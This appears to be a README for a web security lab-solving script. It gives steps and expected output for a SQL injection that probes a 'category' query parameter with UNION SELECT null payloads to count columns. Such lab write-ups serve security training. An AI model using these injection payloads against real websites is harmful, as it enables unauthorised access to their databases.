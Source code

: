# Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
[#] Injection parameter: category
[*] Trying payload: ' UNION SELECT null-- -
[*] Trying payload: ' UNION SELECT null, null-- -
[*] Trying payload: ' UNION SELECT null, null, null-- -
[#] Number of columns: 3
🗹 The lab should be marked now as solved
```
